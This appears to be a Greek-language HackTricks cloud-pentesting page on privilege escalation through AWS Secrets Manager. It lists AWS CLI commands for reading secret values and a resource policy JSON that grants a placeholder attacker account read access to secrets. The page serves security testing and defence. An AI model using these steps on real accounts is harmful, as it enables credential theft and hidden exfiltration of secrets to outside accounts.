 # AWS - Secrets Manager Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Για περισσότερες πληροφορίες σχετικά με το Secrets Manager δείτε:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Ένας attacker με αυτή την άδεια μπορεί να πάρει την **αποθηκευμένη τιμή μέσα σε ένα secret** στο AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potential Impact:** Πρόσβαση σε ιδιαίτερα ευαίσθητα δεδομένα μέσα στην AWS Secrets Manager service.

> [!WARNING]
> Σημειώστε ότι ακόμη και με την άδεια `secretsmanager:BatchGetSecretValue`, an attacker θα χρειαστεί επίσης την `secretsmanager:GetSecretValue` για να ανακτήσει τα ευαίσθητα secrets.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Με τις προηγούμενες άδειες είναι δυνατό να **παραχωρήσετε πρόσβαση σε άλλους principals/accounts (ακόμα και εξωτερικούς)** ώστε να αποκτήσουν πρόσβαση στο **secret**. Σημειώστε ότι, προκειμένου να **διαβαστούν secrets κρυπτογραφημένα** με ένα KMS key, ο χρήστης χρειάζεται επίσης να έχει **πρόσβαση στο KMS key** (περισσότερες πληροφορίες στη [KMS Enum page](../../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../../banners/hacktricks-training.md}}
